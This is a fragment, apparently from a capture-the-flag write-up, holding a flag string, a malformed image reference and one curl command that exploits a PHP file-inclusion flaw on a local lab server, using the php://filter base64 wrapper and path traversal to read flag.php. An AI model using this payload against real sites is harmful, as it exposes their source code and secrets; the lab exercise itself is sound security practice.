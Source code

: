 flag = "flag_bb4e38d4f760c434ee58cfaf9d503437"


curl http://localhost:8002/pages/page.php?f=php://filter/convert.base64-encode/resource=../somerandomtext/flag.php | base64 -d
